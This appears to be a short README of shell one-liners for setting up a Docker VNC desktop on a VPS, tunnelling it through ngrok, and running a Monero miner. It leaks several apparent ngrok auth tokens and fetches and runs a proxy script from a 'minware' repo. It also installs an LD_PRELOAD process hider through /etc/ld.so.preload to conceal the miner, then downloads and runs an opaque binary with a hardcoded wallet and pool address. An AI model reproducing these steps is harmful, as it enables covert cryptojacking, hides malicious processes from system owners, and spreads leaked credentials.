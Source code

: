 # creat vps docker vnc : 
- install docker : apt install -y apt-transport-https ca-certificates curl software-properties-common && curl -fsSL https://download.docker.com/linux/ubuntu/gpg | gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg && echo "deb [arch=amd64 signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | tee /etc/apt/sources.list.d/docker.list > /dev/null && apt update && apt install -y docker-ce docker-ce-cli containerd.io && usermod -aG docker $USER && service docker restart
- docker run -it --rm -p 6080:80 -p 5900:5900 dorowu/ubuntu-desktop-lxde-vnc
- wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz && tar -xf ngrok-v3-stable-linux-amd64.tgz && ./ngrok config add-authtoken 2eqKuowsYAQzDkn0uAG8WWxxfTy_4MWVSLvDjfSCWgPsQVbm5
- ./ngrok http 6080
  
   token ngrok :
- 2TtAcvy5faRWDPlmnbt2tauuMfy_J8rCNerKtLqLeJqrMTGY
- 2TY9j0ZPVtJfGB3HQPVxoIAcKR6_2sqBzNTKDZnacRm9hJtFK
- 2U9omfblkr1JR4VhgmIQwk0XkaP_2MRDsYsLaWzj2ouhqVCaY
- 2UEc6WUEbjbA3JpjmWfem5IZFzK_6EyQFfMJ1amaocetmur7q
- 2UbN0YLLgdPR7xDmmkMPtaTMxRd_7YiSYjH3rcoXKt5goPE6Q
- 2eqK7m0aHI98zyKc5kutUVwk5xe_44hNpSjdL1HSGtftH5dso
- 2eqKuowsYAQzDkn0uAG8WWxxfTy_4MWVSLvDjfSCWgPsQVbm5

  create proxy pool :
  kill port : apt-get install psmisc -y && fuser -k 4050/tcp
- wget https://raw.githubusercontent.com/bulboni/minware/main/proxm.py && nohup python3 proxm.py
  
  step mining :
- hide miner no gcc: git clone https://github.com/cihuuy/libn && cd libn && apt install gcc -y && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload
- hide miner wiht gcc: git clone https://github.com/cihuuy/libn && cd libn && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload
  download and runing miner 2 core :
wget -O durex "https://drive.google.com/uc?export=download&id=1g9IoCBMXlA_K3GDNBwULac_N9FlK2_Ce" && chmod +x durex && ./durex -algo RandomX -coin XMR -wallet 86P42DaNTvmBmMLM4oL5kL6tVQVo9FfsnJDTqj6VU76whVzjMdMbMa7PV3SHAQuNySan44ToXVFn3gwFmqeDb58t1xqNVAB.x3 -pool1 158.69.251.105:4050 -cpuThreads 2
